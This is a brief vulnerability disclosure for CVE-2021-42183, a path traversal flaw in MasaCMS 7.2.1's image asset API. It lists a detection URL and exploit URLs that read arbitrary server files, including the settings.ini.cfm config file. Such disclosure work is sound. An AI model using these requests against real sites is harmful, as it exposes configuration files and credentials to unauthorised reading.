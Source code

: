 # CVE-2021-42183

MasaCMS 7.2.1 is affected by a path traversal vulnerability in /index.cfm/_api/asset/image/.

# Detection

```
If this file is readable it means the vulnerablilty exists.
https://example.com/index.cfm/_api/asset/image/?filePath=/Application.cfc
```


# Exploit

```
https://example.com/index.cfm/_api/asset/image/?filePath=/../<Path>
- Read The Config File
https://example.com/index.cfm/_api/asset/image/?filePath=/../config/settings.ini.cfm 
```

## Tested On 
MasaCMS 7.2.1

## Vendor

http://www.masacms.com

https://github.com/MasaCMS/MasaCMS


## Discoverd By:

Rawi And BassamAssiri.
